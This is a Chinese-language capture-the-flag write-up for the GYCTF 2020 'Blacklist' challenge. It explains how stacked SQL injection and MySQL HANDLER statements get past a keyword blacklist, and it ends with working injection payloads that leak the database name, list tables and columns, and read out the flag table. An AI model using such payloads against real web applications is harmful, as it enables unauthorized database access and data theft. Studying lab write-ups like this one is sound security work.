





# GYCTF 2020

## Blacklist

> *2021/07/15*

### 题目

这个题考察的是堆叠注入和`handler`的用法，进去是一个简单的界面



输入`1`,`2`,`3`,`1' or '1'='1`分别有不同的返回值



这道题应该是一个**SQL注入的题目**，将返回结果也显示出来，试试联合查询，发现waf



后台对上面的关键字进行了过滤，**常规方法只能爆出数据库名，而不能完整爆出flag**，需要用其他方法，这里采用**堆叠注入**，可以爆出**表，列名**





但是我们无法再继续下去了，因为关键字过滤的太多，导致**预编译**以及**重命名**两种方案都不行，这里采用一种新的方案`handler`

> `HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭
>
> - `handler tablename open // 获取一个tablename的句柄`
> - `handler tablename read first // 查看句柄第一行`
> - `handler tablename read next // 查看下一行`
> - `handler tablename close`

利用上面这种方法，我们可以读取到`flag`

### payload

```
?inject=1'^extractvalue(1,concat('~',database()))%23
// error 1105 : XPATH syntax error: '~supersqli'
?inject=1';show tables;
// return table names
?inject=1';show columns from FlagHere;
// return column names
?inject=1';handler `FlagHere` open;handler `FlagHere` read first;
// return flag
```
